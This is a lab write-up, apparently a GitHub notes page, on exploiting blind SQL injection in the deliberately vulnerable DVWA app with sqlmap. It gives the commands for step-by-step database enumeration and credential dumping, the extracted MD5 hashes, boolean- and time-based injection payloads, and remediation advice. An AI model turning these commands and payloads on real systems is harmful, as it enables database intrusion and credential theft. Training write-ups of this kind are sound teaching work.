



# Blind SQL Injection — Exploitation using sqlmap (DVWA)

**Target:** DVWA (Damn Vulnerable Web Application)
**Tool used:** sqlmap v1.10.5
**Injection point:** `id` GET parameter (SQLi module, Low security)
**Backend confirmed:** MySQL >= 5.0.12 (MariaDB fork), Apache 2.4.68, PHP 8.5.9, Linux Debian

---

## Objective

To identify and exploit a Blind SQL Injection vulnerability in DVWA using `sqlmap`, enumerate the backend database, extract table structure, dump credentials, and attempt to crack the extracted password hashes.

---

## Prerequisites

- Kali Linux with `sqlmap` installed
- DVWA running and accessible (security level: Low)
- Burp Suite (or browser) used to capture the vulnerable request and save it as a raw HTTP request file (`DVWA.txt`)
- FoxyProxy configured in Firefox to route traffic through Burp for capturing the request


---

## Step 1: Capture the Request

Log in to DVWA, navigate to the **SQL Injection** module, submit an `id` value, and intercept the request in Burp Suite. Save the raw request as `DVWA.txt` on the Desktop.



---

## Step 2: Basic Injection Test

```bash
sqlmap -r DVWA.txt
```

**What it does:** Parses the saved request, tests the `id` parameter for injectability, and identifies the injection technique.

**Result:** `id` parameter confirmed injectable via **boolean-based blind** — `AND boolean-based blind - WHERE or HAVING clause`.

**Prompts encountered:**
- `Do you want to skip test payloads specific for other DBMSes? [Y/n]` → **n** (test all DBMS types thoroughly)
- `do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]` → **y** (run full MySQL payload set)


---

## Step 3: Enumerate Databases

```bash
sqlmap -r DVWA.txt --dbs
```

**What it does:** Lists all databases accessible to the current database user.

**Result:**
```
[*] dvwa
[*] information_schema
```

**Additional confirmed injection technique:** `time-based blind` — `MySQL >= 5.0.12 AND time-based blind (query SLEEP)`



---

## Step 4: Enumerate Tables in `dvwa` Database

```bash
sqlmap -r DVWA.txt -D dvwa --tables
```

**What it does:** `-D dvwa` selects the target database; `--tables` lists all tables inside it.

**Result — 4 tables found:**
```
| access_log   |
| guestbook    |
| security_log |
| users        |
```


---

## Step 5: Enumerate Columns of `users` Table

```bash
sqlmap -r DVWA.txt -D dvwa -T users --columns
```

**What it does:** Lists all column names and data types in the `users` table.

**Result — 10 columns found:**
```
| role            | varchar(20) |
| user            | varchar(15) |
| account_enabled | tinyint(1)  |
| avatar          | varchar(70) |
| failed_login    | int(3)      |
| first_name      | varchar(15) |
| last_login      | timestamp   |
| last_name       | varchar(15) |
| password        | varchar(32) |
| user_id         | int(6)      |
```

**Observation:** `password` column length (32 chars) indicates MD5 hashing.


---

## Step 6: Dump Specific Column Data

```bash
sqlmap -r DVWA.txt -D dvwa -T users -C user,password,role --dump
```

**What it does:** Extracts actual row values for the `user`, `password`, and `role` columns only.

**Result — 5 user records extracted:**

| role  | user   | password (MD5)                     |
|-------|--------|-------------------------------------|
| admin | admin  | 5f4dcc3b5aa765d61d8327deb882cf99     |
| user  | smithy | 5f4dcc3b5aa765d61d8327deb882cf99     |
| user  | 1337   | 8d3533d75ae2c3966d7e0d4fcc69216b     |
| user  | pablo  | 0d107d09f5bbe40cade3de5c71e9e9b7     |
| user  | smithy | 5f4dcc3b5aa765d61d8327deb882cf99     |

**Prompts encountered:**
- `recognized possible password hashes in column 'password'. do you want to store hashes to a temporary file...` → **y**
- `do you want to crack them via a dictionary-based attack? [Y/n/q]` → **y**
- `what dictionary do you want to use?` → **1** (default sqlmap wordlist)
- `do you want to use common password suffixes? (slow!) [y/N]` → **n**


---

## Step 7: Dump Everything in One Shot

```bash
sqlmap -r DVWA.txt -D dvwa --dump-all
```

**What it does:** Automatically enumerates and dumps all tables and all columns within the `dvwa` database in a single command — combines Steps 4, 5, and 6 into one operation.

*(Use `sqlmap -r DVWA.txt --dump-all` without `-D` to dump every database on the server, including `information_schema`.)*


---

## Summary of Injection Points Found

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2' AND 6686=6686 AND 'jaaF'='jaaF&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 3043 FROM (SELECT(SLEEP(5)))rmUQ) AND 'dyjm'='dyjm&Submit=Submit
```

---

## Key Takeaways

- The `id` parameter in DVWA's SQLi module is vulnerable to **boolean-based** and **time-based blind SQL injection**.
- Weak password hashing (MD5, unsalted) allowed near-instant cracking via dictionary attack.
- Full database compromise (all tables, all columns, all rows) was achieved without any visible query output on the web page — purely through blind inference techniques.

## Remediation

- Use parameterized queries / prepared statements
- Hash passwords using strong, salted algorithms (bcrypt, Argon2) instead of MD5
- Apply least privilege to the database account used by the web application
- Suppress verbose SQL error messages in production
- Apply input validation (allowlist-based) as a supporting layer
